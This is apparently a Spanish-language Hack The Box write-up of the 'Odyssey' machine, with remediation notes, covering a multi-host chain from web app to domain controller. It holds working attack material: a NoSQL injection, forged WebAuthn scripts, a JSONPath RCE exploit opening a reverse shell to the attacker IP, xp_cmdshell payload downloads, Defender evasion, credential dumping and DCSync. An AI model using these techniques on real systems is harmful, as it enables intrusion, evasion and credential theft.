

> [!info] Información de la máquina **Plataforma:** Hack The Box **Máquina:** Odyssey **OS:** Windows **Dificultad:** Easy **IP objetivo:** `10.129.76.62` **Dominio:** `odyssey.htb` **IP atacante:** `10.10.15.82`

---

## 1. Resumen

**Odyssey** es una máquina Windows de dificultad Easy que involucra una cadena de ataque compleja a través de múltiples hosts en un entorno de Active Directory. El compromiso inicial se logra mediante una **inyección en el pipeline de agregación de NoSQL (MongoDB)** para extraer tokens de invitación no canjeados, seguido de un **registro sintético de WebAuthn** para autenticarse en la aplicación AEGIS. La escalada de privilegios abusa de un **Prototype Pollution** para leer archivos del servidor a través de plantillas LaTeX, una **ejecución remota de código (RCE) vía JSONPath (CVE-2025-1302)**, y técnicas avanzadas de Active Directory incluyendo **dMSA Ouroboros chain**, **HMAC-Gated YAML Deserialization** y **DCSync** para comprometer el controlador de dominio.



> [!important] Idea clave
> Esta máquina involucra **tres hosts** (odyssey-web, odyssey-db, DC01) y requiere encadenar múltiples técnicas: inyección NoSQL, WebAuthn abuse, file read vía LaTeX, RCE vía JSONPath, movimiento lateral con NTLM relay/cracking, escalada con potato exploit, abuso de dMSA, deserialización YAML insegura y DCSync.

---

## 2. Enumeración inicial

### 2.1 Resolución de nombres (/etc/hosts)

Agregamos la máquina al archivo `/etc/hosts`:


### 2.2 Comprobar conectividad

Comprobamos conectividad con `ping`:


### 2.3 Escaneo de puertos con Nmap

```bash
sudo nmap -Pn -sV -A -p3000 --min-rate 4000 10.129.76.62
```

| Puerto | Estado | Servicio | Versión |
|--------|--------|----------|---------|
| 3000/tcp | open | http | Node.js Express framework |

El escaneo revela una redirección hacia `aegis.korvia.htb:3000`, que agregamos a `/etc/hosts`.


---

## 3. Reconocimiento Web & Enumeración de Endpoints

### 3.1 Aplicación Web

Al acceder a la web, nos redirige a un formulario de login basado en **WebAuthn** (autenticación por hardware):


Interceptando la solicitud POST con **BurpSuite**:

```http
POST /api/v1/auth/webauthn/auth/begin HTTP/1.1
Host: aegis.korvia.htb:3000
content-type: application/json
```

Esto revela la existencia de un endpoint API en `/api/v1` y que el backend utiliza **WebAuthn**.

### 3.2 Fuzzing de directorios

```bash
gobuster dir -u http://aegis.korvia.htb:3000/ \
  -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

| Endpoint | Status | Observación |
|----------|--------|-------------|
| `/img` | 301 | Recursos estáticos |
| `/login` | 200 | Página de login |
| `/account` | 302 → `/login` | Requiere autenticación |
| `/dashboard` | 302 → `/login` | Requiere autenticación |
| `/requests` | 302 → `/login` | Requiere autenticación |
| `/onboard` | **400** | Interesante — no redirige a login |

El endpoint `/onboard` devuelve un código **400**, lo que sugiere una funcionalidad de registro que requiere un token de invitación.


### 3.3 Descubrimiento de metadatos AAGUID

Al examinar las solicitudes en BurpSuite, identificamos un endpoint que devuelve metadatos de autenticadores WebAuthn/FIDO y que realiza consultas a la base de datos:


---

## 4. Inyección en el Pipeline de Agregación NoSQL

### 4.1 Identificación de la vulnerabilidad

Al no funcionar ningún tipo de SQLi, determinamos que estamos ante una base de datos **NoSQL** (probablemente **MongoDB**). La aplicación utiliza un parámetro `pipeline` compatible con el concepto de **aggregation pipeline** de MongoDB.

### 4.2 Extracción de tokens de invitación

Mediante una inyección en el pipeline de agregación usando `$lookup`, `$unwind` y `$replaceRoot`, extraemos los tokens de invitación pendientes de la colección `pending_invites`:

```bash
curl -sG 'http://aegis.korvia.htb:3000/api/v1/aegis-mds/search' \
  --data-urlencode 'pipeline=[{"$limit":1},{"$facet":{"x":[{"$lookup":{"from":"pending_invites","pipeline":[],"as":"y"}},{"$unwind":"$y"},{"$replaceRoot":{"newRoot":"$y"}}]}}]' | jq
```

```json
{
  "x": [
    {
      "_id": "69f49023225fb3c680909274",
      "operator_id": "op-2026-0042",
      "role": "Operator",
      "token": "dad657731b2c7a2190fa167b388a2ddbc17b78ba6c6be1c3b169c4cff97a5238",
      "issued_by": "ao-mreyes",
      "issued_at": "2026-04-15T08:00:00.000Z",
      "expires_at": "2126-05-15T00:00:00.000Z",
      "redeemed": false,
      "pipeline": "forge-recruitment",
      "clearance_target": "Δ-3"
    }
  ]
}
```


> [!success] Inyección exitosa
> Se recuperaron tokens de operador no canjeados, permitiéndonos avanzar al registro.

---

## 5. Registro Sintético de WebAuthn & userHandle Confusion

### 5.1 Registro con token extraído

Con un token válido, registramos un usuario a través del endpoint `/onboard`:


### 5.2 Creación del autenticador virtual

> **Nota:** La IP del objetivo cambió a `10.129.77.6` al continuar al día siguiente.

La aplicación indica que la certificación del autenticador no está permitida fuera de localhost. Sin embargo, la respuesta de registro revela que `attestation: "none"`, lo que significa que el servidor no valida los datos de certificación. Creamos un **autenticador virtual en Python** usando `fido2`, `cbor2` y `cryptography`:

<details>
<summary>📜 Script de registro WebAuthn (<code>webauthn_register.py</code>)</summary>

```python
#!/usr/bin/env python3
import os, json, hashlib, struct, pickle, requests, cbor2
from fido2.utils import websafe_decode, websafe_encode
from cryptography.hazmat.primitives.asymmetric import ec
from cryptography.hazmat.primitives import hashes, serialization

BASE = "http://aegis.korvia.htb:3000"
RP_ID = "aegis.korvia.htb"
ORIGIN = "http://aegis.korvia.htb:3000"
TOKEN = "dad657731b2c7a2190fa167b388a2ddbc17b78ba6c6be1c3b169c4cff97a5238"

s = requests.Session()
r = s.post(f"{BASE}/api/v1/auth/webauthn/register/begin", json={"invite_token": TOKEN})
r.raise_for_status()
opts = r.json()

challenge = websafe_decode(opts["challenge"])
user_id = websafe_decode(opts["user"]["id"])
print(f"[+] reserved operator user_id: {user_id.decode()}")

priv = ec.generate_private_key(ec.SECP256R1())
pn = priv.public_key().public_numbers()
i2b = lambda n: n.to_bytes(32, "big")

cose_pub = {1: 2, 3: -7, -1: 1, -2: i2b(pn.x), -3: i2b(pn.y)}
cred_id = os.urandom(32)
rp_id_hash = hashlib.sha256(RP_ID.encode()).digest()
flags = 0x41
counter = struct.pack(">I", 1)
aaguid = b"\x00" * 16

attested = aaguid + struct.pack(">H", len(cred_id)) + cred_id + cbor2.dumps(cose_pub)
auth_data = rp_id_hash + bytes([flags]) + counter + attested

attestation_obj = cbor2.dumps({"fmt": "none", "attStmt": {}, "authData": auth_data})
client_data = json.dumps({
    "type": "webauthn.create",
    "challenge": websafe_encode(challenge),
    "origin": ORIGIN,
    "crossOrigin": False
}, separators=(",", ":")).encode()

body = {
    "id": websafe_encode(cred_id),
    "rawId": websafe_encode(cred_id),
    "type": "public-key",
    "response": {
        "clientDataJSON": websafe_encode(client_data),
        "attestationObject": websafe_encode(attestation_obj)
    },
    "clientExtensionResults": {}
}

r = s.post(f"{BASE}/api/v1/auth/webauthn/register/finish", json=body)
print(f"[+] register/finish: {r.status_code} {r.text}")
r.raise_for_status()

priv_pem = priv.private_bytes(
    encoding=serialization.Encoding.PEM,
    format=serialization.PrivateFormat.PKCS8,
    encryption_algorithm=serialization.NoEncryption()
)

with open("aegis_cred.pkl", "wb") as f:
    pickle.dump({"priv_pem": priv_pem, "cred_id": cred_id, "user_id": user_id}, f)

print("[+] credential saved to ./aegis_cred.pkl")
```

</details>


### 5.3 Script de login WebAuthn

<details>
<summary>📜 Script de login WebAuthn (<code>webauthn_login.py</code>)</summary>

```python
#!/usr/bin/env python3
import json, hashlib, struct, pickle, requests
from fido2.utils import websafe_decode, websafe_encode
from cryptography.hazmat.primitives import serialization, hashes
from cryptography.hazmat.primitives.asymmetric import ec

BASE = "http://aegis.korvia.htb:3000"
RP_ID = "aegis.korvia.htb"
ORIGIN = "http://aegis.korvia.htb:3000"

data = pickle.load(open("aegis_cred.pkl", "rb"))
priv = serialization.load_pem_private_key(data["priv_pem"], password=None)
cred_id = data["cred_id"]
user_id = data["user_id"]
print(f"[+] loaded credential for {user_id.decode()}")

s = requests.Session()
r = s.post(f"{BASE}/api/v1/auth/webauthn/auth/begin", json={})
r.raise_for_status()
challenge = websafe_decode(r.json()["challenge"])

rp_id_hash = hashlib.sha256(RP_ID.encode()).digest()
flags = 0x01
counter = struct.pack(">I", 2)
auth_data = rp_id_hash + bytes([flags]) + counter

client_data = json.dumps({
    "type": "webauthn.get",
    "challenge": websafe_encode(challenge),
    "origin": ORIGIN,
    "crossOrigin": False,
}, separators=(",", ":")).encode()

to_sign = auth_data + hashlib.sha256(client_data).digest()
sig = priv.sign(to_sign, ec.ECDSA(hashes.SHA256()))

body = {
    "id": websafe_encode(cred_id),
    "rawId": websafe_encode(cred_id),
    "type": "public-key",
    "response": {
        "clientDataJSON": websafe_encode(client_data),
        "authenticatorData": websafe_encode(auth_data),
        "signature": websafe_encode(sig),
        "userHandle": websafe_encode(user_id),
    },
    "clientExtensionResults": {},
}

r = s.post(f"{BASE}/api/v1/auth/webauthn/auth/finish", json=body)
print(f"[+] auth/finish: {r.status_code} {r.text}")
r.raise_for_status()
print(f"[+] session cookie: aegis.sid={s.cookies.get('aegis.sid')}")
```

</details>

```text
[+] loaded credential for op-2026-0042
[+] auth/finish: 200 {"ok":true,"handle":"op-2026-0042","display_name":"op-2026-0042","role":"Operator","clearance":"?-3","redirect":"/dashboard"}
[+] session cookie: aegis.sid=s%3Ae6x2nSh_uXakooV2pHvAhyL7bSopzLv_.vkUF3TuQTJ3evOgORu1o%2BcUbqkEoLEEP%2BL90xc37NoM
```

### 5.4 Escalada a Admin (userHandle Confusion)

Al examinar el panel, descubrimos un usuario `admin`. El `user_id` se transmite en base64:

```bash
echo "b3AtMjAyNi0wMDQy" | base64 -d
# op-2026-0042
```

Si la aplicación asigna permisos basándose únicamente en el `userHandle` durante la autenticación, podemos cambiar el ID a `admin`:

```python
"userHandle": websafe_encode(b"admin"),
```

```text
[+] auth/finish: 200 {"ok":true,"handle":"admin","display_name":"System Administrator","role":"Administrator","clearance":"Δ-5","redirect":"/dashboard"}
```


> [!success] Escalada a Admin
> Modificando el `userHandle` a `admin` en el script de login, obtenemos acceso como **System Administrator**.

---

## 6. Lectura de Archivos mediante Prototype Pollution & LaTeX

### 6.1 Análisis del sistema de plantillas

Como admin, la sección **Notice Templates** permite renderizar plantillas. El stack tecnológico es:

```text
Nunjucks → Pandoc → pdflatex → PDF
```


### 6.2 File Read vía primitivas TeX

Utilizando primitivas TeX podemos leer archivos del servidor:

```json
{
  "body": "...\n`\\newread\\foo \\openin\\foo=/proc/self/cgroup \\loop\\unless\\ifeof\\foo \\read\\foo to \\line \\message{^^J<<<\\meaning\\line>>>^^J}\\repeat \\closein\\foo",
  "overrides": "{\"audience\": \"internal\", \"allowRawBlocks\": false, \"ceremony_witness\": \"s.vrana\"}"
}
```

**Resultados obtenidos:**

| Archivo | Contenido relevante |
|---------|-------------------|
| `/proc/self/cgroup` | Servicio: `aegis.service` |
| `/etc/systemd/system/aegis.service` | Raíz web: `/home/webadmin/aegis` |
| `/home/webadmin/aegis/server.js` | Código fuente del backend |


---

## 7. RCE vía JSONPath (CVE-2025-1302)

### 7.1 Descubrimiento del endpoint de diagnóstico

Al analizar el código fuente (`server.js`), encontramos la ruta `mds_diag` con un endpoint que acepta consultas JSONPath y utiliza `jsonpath-plus` v10.2.0 con `eval: safe`:

```javascript
const { JSONPath } = require('jsonpath-plus');
// ...
const DEFAULT_JP_OPTS = { eval: 'safe', preventEval: false };
```

### 7.2 Obtención del token de diagnóstico

```text
# /etc/aegis-mds-diag.env
MDS_DIAG_TOKEN=bcdf42b953dcee715b8d81e38f0c5ded
```


### 7.3 Explotación de CVE-2025-1302

```python
# CVE_2025_1302.py
import requests, base64

DIAG_TOKEN = "bcdf42b953dcee715b8d81e38f0c5ded"
URL = f"http://aegis.korvia.htb:3000/api/v1/aegis-mds/_diag/{DIAG_TOKEN}/jpquery"
LHOST, LPORT = "10.10.15.82", 4444

cmd = f"bash -i >& /dev/tcp/{LHOST}/{LPORT} 0>&1"
b64 = base64.b64encode(cmd.encode()).decode()

inner = f"this.process.mainModule.require('child_process').exec('echo {b64}|base64 -d|bash')"
expr = f"$..[?(p=\"{inner}\";Ethan=''[['constructor']][['constructor']](p);Ethan())]"

r = requests.post(URL, json={"context": "registration", "expr": expr}, timeout=5)
```


> [!success] Shell como webadmin
> Obtenemos reverse shell como el usuario `webadmin` en `odyssey-web`.

---

## 8. Escalada a Root en odyssey-web & Pivoting

### 8.1 Password Reuse → root

En `/home/webadmin/aegis/db/sql.js` encontramos credenciales de la base de datos:


Contraseña: `opc0932k90%%lODFI93-++`

El usuario `webadmin` pertenece al grupo `sudo`. Reutilizamos la contraseña:


### 8.2 Descubrimiento de red interna

```bash
root@odyssey-web:~# ifconfig
# eth1: 172.16.0.12
```

| Host | IP | Rol |
|------|----|-----|
| odyssey-web | 172.16.0.12 | Servidor web (comprometido) |
| odyssey-db | 172.16.0.11 | Servidor MSSQL |
| dc01 | 172.16.0.10 | Controlador de dominio |


### 8.3 Túnel con Ligolo-ng

```bash
# En Kali
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
ligolo-proxy -selfcert

# En odyssey-web
./agent -connect 10.10.15.82:11601 -ignore-cert
```


### 8.4 Nmap sobre odyssey-db

```bash
sudo nmap -p- odyssey-db.odyssey.htb -sV -sC
```

| Puerto | Servicio |
|--------|----------|
| 1433/tcp | Microsoft SQL Server 2022 |
| 5985/tcp | WinRM |

---

## 9. BULK INSERT Coercion & Cracking NTLMv2

### 9.1 Acceso a MSSQL con credenciales del render worker

Desde `/etc/aegis-render.env`:

```text
AEGIS_RENDER_DB_USER=aegis_audit_publisher
AEGIS_RENDER_DB_PASS=Rxd!Qw6n8sP..2bJ@Wpx-2026
AEGIS_RENDER_DB_HOST=172.16.0.11
```

### 9.2 Coerción NTLM mediante BULK INSERT

El usuario `aegis_audit_publisher` tiene el rol `bulkadmin`, lo que permite usar rutas UNC:

```sql
EXEC ('BULK INSERT aegis_audit.dbo.audit_ingest_staging FROM ''\\172.16.0.12\x\test'' WITH (DATAFILETYPE = ''char'')');
```

### 9.3 Captura y cracking del hash

Con **Responder** en escucha, capturamos el hash **NTLMv2** de `svc-mssql`:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
# svc-mssql : cml958782
```

---

## 10. Acceso como SYSTEM en odyssey-db

### 10.1 Login como sysadmin en MSSQL

```bash
impacket-mssqlclient 'svc-mssql:cml958782@172.16.0.11' -p 1433
```


`svc-mssql` es **sysadmin** y tiene el privilegio `SeImpersonatePrivilege`.

### 10.2 Evasión de Defender & GodPotato

Debido a que **Defender** está activo, construimos una cadena de evasión:

```text
Go Reverse Shell → Donut (shellcode) → XOR Encryption → Python executor
```

1. **Reverse shell en Go** (sin .NET, sin AMSI hooks)
2. **Donut** convierte GodPotato en shellcode sin headers PE
3. **XOR** destruye patrones estáticos para evadir firmas
4. Se descargan y ejecutan via `xp_cmdshell`

```sql
EXEC xp_cmdshell 'powershell -c "Invoke-WebRequest -Uri http://10.10.15.82:8000/s.exe -OutFile C:\Users\Public\s.exe"';
EXEC xp_cmdshell 'powershell -c "Invoke-WebRequest -Uri http://10.10.15.82:8000/p.exe -OutFile C:\Users\Public\p.exe"';
EXEC xp_cmdshell 'C:\Users\Public\p.exe';
```

**User flag:** `C:\Users\Administrator\Desktop\user.txt`

```text
00e897f9019b2fc5b07a401a6c25b971
```

---

## 11. Movimiento Lateral — Acceso a DC01

### 11.1 BloodHound & Enumeración AD

```bash
bloodhound-ce-python -u 'svc-mssql' -p 'cml958782' -d odyssey.htb \
  -dc dc01.odyssey.htb -ns 172.16.0.10 -c All --zip
```

### 11.2 Dump de hashes locales (odyssey-db)

```powershell
reg save HKLM\SAM C:\Users\Public\sam.save
reg save HKLM\SYSTEM C:\Users\Public\system.save
reg save HKLM\SECURITY C:\Users\Public\security.save
```


### 11.3 Shadow Credentials → svc-aegis-build

La cuenta de máquina `ODYSSEY-DB$` tiene el enlace `addKeyCredentialLink` sobre `svc-aegis-build`:


```bash
certipy-ad shadow auto -u 'ODYSSEY-DB$@odyssey.htb' \
  -hashes 'aad3b435b51404eeaad3b435b51404ee:71bc6be8565f0c9871070c3912b1680d' \
  -account 'svc-aegis-build' -dc-ip 172.16.0.10
# NT hash for 'svc-aegis-build': bbc270509ec878cf516d5295fb4d774d
```

### 11.4 dMSA Ouroboros Chain → svc-aegis-deploy

Usando `bloodyAD`, descubrimos que `svc-aegis-build` tiene `CREATE_CHILD` sobre `OU=Migrations` para objetos `msDS-DelegatedManagedServiceAccount`:

```bash
bloodyAD --host 172.16.0.10 -d odyssey.htb \
  -u svc-aegis-build -p ':bbc270509ec878cf516d5295fb4d774d' \
  get writable --otype ou --right CHILD --detail
# OU=Migrations → msDS-DelegatedManagedServiceAccount: CREATE_CHILD
```

Se crea un dMSA con el truco **Ouroboros** (auto-autorización via `msDSGroupMSAMembership`):

```bash
# Crear dMSA
bloodyAD add badSuccessor ...

# Obtener SIDs
bloodyAD get object 'dmsa-pipe-deploy$' --attr objectSid
# S-1-5-21-4175332977-3571604968-1809176562-16601

# Crear SD con auto-referencia y escribirlo
bloodyAD set object 'dmsa-pipe-deploy$' msDS-GroupMSAMembership --raw --b64 -v '...'

# S4U2Self para obtener hash de svc-aegis-deploy
badS4U2self ... 'dmsa-pipe-deploy$@odyssey.htb' --dmsa
```

**Hash obtenido:** `svc-aegis-deploy: 3a5026b2aa5ef2cbb7cb6a7be3a2bcfa`

---

## 12. Privilege Escalation — HMAC-Gated YAML Deserialization

### 12.1 Acceso a DC01 via WinRM

```bash
evil-winrm -i 172.16.0.10 -u svc-aegis-deploy -H '3a5026b2aa5ef2cbb7cb6a7be3a2bcfa'
```

### 12.2 Descubrimiento del servicio AegisStreamCollector

```powershell
reg query "HKLM\SYSTEM\CurrentControlSet\Services\AegisStreamCollector" /v ImagePath
```


El usuario `svc-aegis-stream` tiene derechos de **DCSync** en BloodHound:


### 12.3 Análisis del Named Pipe AegisStreamMgmt

La aplicación `.NET` expone un named pipe `\\.\pipe\AegisStreamMgmt` con un protocolo binario basado en **frames**:

```text
┌──────────┬──────────┬──────────┬──────────┬──────────┬──────────┬──────────┐
│ Magic    │ ReqId    │ OpLen    │ OpCode   │ PayLen   │ Payload  │ Signature│
│ 4 bytes  │ 4 bytes  │ 2 bytes  │ variable │ 4 bytes  │ variable │ 32 bytes │
└──────────┴──────────┴──────────┴──────────┴──────────┴──────────┴──────────┘
```

**Modelo de autorización por posesión de clave:**

| Rol | Clave | OpCodes permitidos |
|-----|-------|--------------------|
| Viewer (10) | `viewer.key` | `STREAM_LIST`, `STREAM_GET`, `DIAG_DECRYPT_TELEMETRY_BLOB` |
| Auditor (20) | `auditor.key` | + `STREAM_METRICS`, `STREAM_REPLAY` |
| Operator (30) | `operator.key` | + `CONFIG_EXPORT`, `CONFIG_IMPORT`, `MAINT_RELOAD` |

### 12.4 Decryption Oracle → Obtención de la clave Operator

La cadena de ataque:

```text
viewer.key (legible por nuestro grupo)
    │
    ▼
DIAG_DECRYPT_TELEMETRY_BLOB (firmado con viewer.key)
    │ envía operator.wrap.bin como payload
    ▼
Servicio ejecuta DPAPI Unprotect
    │
    ▼
KEK (Key Encryption Key)
    │ AesGcmUtil.Decrypt(kek, operator.key.enc)
    ▼
operator.key
```

Script `oracle_decrypt.ps1` ejecutado via WinRM:


Descifrado local de la clave del operador:

```python
# decrypt_operator.py
from cryptography.hazmat.primitives.ciphers.aead import AESGCM

with open('wrapper.bin', 'rb') as f: wrapper = f.read()
with open('operator.key.enc', 'rb') as f: blob = f.read()

nonce, tag, ct = blob[:12], blob[12:28], blob[28:]
op_key = AESGCM(wrapper).decrypt(nonce, ct + tag, associated_data=None)
print(op_key.hex())
```

**Clave del operador:** `4b690afb33fd7f1bd2c4b36fce121b8b291352a5a0ed8632a0654422f401a83c`


### 12.5 YAML Deserialization RCE via CONFIG_IMPORT

El handler `CONFIG_IMPORT` utiliza `YamlDotNet` con el resolver obsoleto `TypeNameInTagNodeTypeResolver`, que permite especificar tipos .NET arbitrarios mediante etiquetas YAML. Usando `%2C` para codificar comas en las etiquetas:

```yaml
--- !System.Windows.Data.ObjectDataProvider%2CPresentationFramework
ObjectInstance:
 !System.Diagnostics.Process%2CSystem.Diagnostics.Process
 StartInfo:
 !System.Diagnostics.ProcessStartInfo%2CSystem.Diagnostics.Process
   FileName: cmd.exe
   Arguments: '/c <COMANDO>'
MethodName: Start
```

### 12.6 Ejecución de Rubeus como svc-aegis-stream

Mediante `CONFIG_IMPORT`, copiamos y ejecutamos **Rubeus** para obtener un TGT delegado:

```powershell
./config_import.ps1
# Status: OK | PayloadLen: 0
```


Rubeus `tgtdeleg` produce un AP-REQ delegation ticket para `svc-aegis-stream`.

---

## 13. DCSync & Acceso como Domain Admin

### 13.1 Conversión de kirbi a ccache

```bash
echo '<base64_kirbi>' | base64 -d > svc-aegis-stream.kirbi
impacket-ticketConverter svc-aegis-stream.kirbi svc-aegis-stream.ccache
```

### 13.2 DCSync → hash del Administrador

```bash
KRB5CCNAME=svc-aegis-stream.ccache \
  impacket-secretsdump -k -no-pass -dc-ip 172.16.0.10 \
  "odyssey.htb/svc-aegis-stream@dc01.odyssey.htb" \
  -just-dc-user Administrator

# Administrator:500:aad3b435b51404eead3b435b51404ee:890b9e96245f6895e06adfe92ad1e81f:::
```

### 13.3 Acceso como Administrator

```bash
evil-winrm -i 172.16.0.10 -u Administrator -H "890b9e96245f6895e06adfe92ad1e81f"
```

**Root flag:** `C:\Users\Administrator\Desktop\root.txt`


> [!success] Flags obtenidas
> **User Flag:** `00e897f9019b2fc5b07a401a6c25b971` ✅
> **Root Flag:** capturada ✅

---

## 14. Cadena completa de ataque

```text
Enumeración (Nmap → Node.js Express :3000)
        ↓
NoSQL Aggregation Pipeline Injection → Tokens de invitación
        ↓
Registro sintético de autenticador WebAuthn
        ↓
userHandle Confusion → Acceso como Admin
        ↓
Prototype Pollution → File Read vía LaTeX/TeX
        ↓
CVE-2025-1302: JSONPath eval → RCE como webadmin
        ↓
Password Reuse → root en odyssey-web
        ↓
Ligolo-ng tunnel → Red interna 172.16.0.0/24
        ↓
BULK INSERT UNC path → NTLMv2 coercion → john → svc-mssql
        ↓
MSSQL sysadmin + SeImpersonatePrivilege → GodPotato → SYSTEM (odyssey-db)
        ↓
User Flag
        ↓
Machine Account Hash → Shadow Credentials → svc-aegis-build
        ↓
dMSA Ouroboros Chain → svc-aegis-deploy
        ↓
Named Pipe Decryption Oracle → KEK → operator.key
        ↓
YAML Deserialization RCE (ObjectDataProvider) → svc-aegis-stream
        ↓
Rubeus tgtdeleg → DCSync → Administrator hash
        ↓
evil-winrm → DC01 → 🏁 Root Flag
```

---

## 15. Conceptos aprendidos

- **NoSQL Aggregation Pipeline Injection:** Abuso de parámetros de pipeline en MongoDB para extraer datos de colecciones arbitrarias mediante `$lookup`.
- **WebAuthn Synthetic Registration:** Cuando la certificación es `none`, es posible crear un autenticador virtual y registrar credenciales sin un dispositivo físico.
- **userHandle Confusion:** Si la aplicación confía ciegamente en el `userHandle` enviado durante la autenticación WebAuthn, un atacante puede suplantar cualquier usuario.
- **File Read via LaTeX/TeX:** Las primitivas `\newread`, `\openin`, `\read` de TeX permiten leer archivos del sistema cuando se procesan plantillas.
- **CVE-2025-1302 (jsonpath-plus):** La opción `eval: safe` en versiones vulnerables de `jsonpath-plus` permite RCE a través de expresiones de filtro.
- **BULK INSERT NTLM Coercion:** El rol `bulkadmin` en MSSQL permite forzar autenticación NTLM hacia una ruta UNC controlada.
- **GodPotato / SeImpersonatePrivilege:** Explotación del privilegio de impersonación para escalar a SYSTEM.
- **dMSA Ouroboros Chain:** Abuso de Delegated Managed Service Accounts en Server 2025 post-parche, creando un bucle de auto-autorización.
- **Named Pipe Decryption Oracle:** Un endpoint de diagnóstico de bajo privilegio que ejecuta DPAPI Unprotect puede convertirse en un oráculo para obtener material criptográfico de mayor privilegio.
- **YAML Deserialization via TypeNameInTagNodeTypeResolver:** El uso del resolver obsoleto de YamlDotNet permite instanciar tipos .NET arbitrarios (como `ObjectDataProvider`) para lograr RCE.
- **DCSync:** Replicación de credenciales del dominio usando los derechos `DS-Replication-Get-Changes` y `DS-Replication-Get-Changes-All`.

---

## 16. Lecciones de pentesting

> [!important] Lección 1 — Encadenar vulnerabilidades pequeñas
> Ninguna vulnerabilidad individual da acceso total. La combinación de NoSQL injection + WebAuthn abuse + file read + RCE + password reuse + NTLM coercion + potato + dMSA + YAML deser + DCSync construye una cadena de 10+ pasos que es devastadora en conjunto.

> [!important] Lección 2 — Las operaciones de diagnóstico son superficie de ataque
> Endpoints de diagnóstico o debug (`DIAG_DECRYPT_TELEMETRY_BLOB`) que parecen inofensivos pueden convertirse en oráculos criptográficos si no están adecuadamente restringidos.

> [!important] Lección 3 — Resolvers obsoletos de serialización son peligrosos
> `TypeNameInTagNodeTypeResolver` de YamlDotNet está marcado como `[Obsolete]` por una razón: permite la instanciación de tipos arbitrarios, habilitando RCE a través de gadgets como `ObjectDataProvider`.

> [!important] Lección 4 — dMSA en Server 2025 sigue siendo explotable
> Incluso con el parche de BadSuccessor (CVE-2025-53779), la cadena Ouroboros demuestra que la validación bidireccional es insuficiente si un atacante tiene permisos de CreateChild + WriteProperty.

---

## 17. Remediación

- **NoSQL Injection:** Validar y sanitizar todos los parámetros de pipeline; usar schemas estrictos para las consultas de agregación.
- **WebAuthn:** Validar que el `userHandle` corresponda al usuario autenticado por la credencial; implementar certificación `direct` o `indirect`.
- **File Read:** Ejecutar el render pipeline en un sandbox aislado sin acceso al filesystem del host.
- **JSONPath (CVE-2025-1302):** Actualizar `jsonpath-plus` a una versión parcheada; usar `preventEval: true`.
- **NTLM Coercion:** Restringir el rol `bulkadmin`; deshabilitar autenticación NTLM saliente.
- **SeImpersonatePrivilege:** No otorgar este privilegio a cuentas de servicio de base de datos.
- **dMSA Abuse:** Restringir los permisos `CREATE_CHILD` sobre OUs de migración; auditar la creación de objetos dMSA.
- **YAML Deserialization:** Eliminar `TypeNameInTagNodeTypeResolver`; registrar tags de forma explícita.
- **DCSync:** Limitar los derechos de replicación; monitorizar solicitudes DRSUAPI anómalas.

---

## 18. Resumen final

```text
 1. Enumerar puertos → Node.js Express en :3000
 2. Inyección en pipeline de agregación NoSQL → extraer tokens de invitación
 3. Registro sintético de autenticador WebAuthn → acceso como Operator
 4. userHandle Confusion → escalada a Admin
 5. Prototype Pollution + LaTeX → lectura de archivos del servidor
 6. CVE-2025-1302 (jsonpath-plus) → RCE como webadmin
 7. Password Reuse → root en odyssey-web
 8. Ligolo-ng → pivoting a red interna 172.16.0.0/24
 9. BULK INSERT + Responder → hash NTLMv2 de svc-mssql → john → cml958782
10. MSSQL sysadmin + GodPotato → SYSTEM en odyssey-db → User Flag
11. Machine account hash → Shadow Credentials → svc-aegis-build
12. dMSA Ouroboros Chain → svc-aegis-deploy
13. Named Pipe Decryption Oracle → operator.key
14. YAML Deserialization RCE → svc-aegis-stream
15. Rubeus tgtdeleg → DCSync → Administrator hash
16. evil-winrm → DC01 → Root Flag
```

> [!success] Resultado
> **Flag User:** capturada ✅
> **Flag Root:** capturada ✅
> **Vector Inicial:** NoSQL Aggregation Pipeline Injection + WebAuthn Synthetic Registration
> **Escalada de Privilegios:** CVE-2025-1302 → GodPotato → dMSA Ouroboros → YAML Deserialization → DCSync

---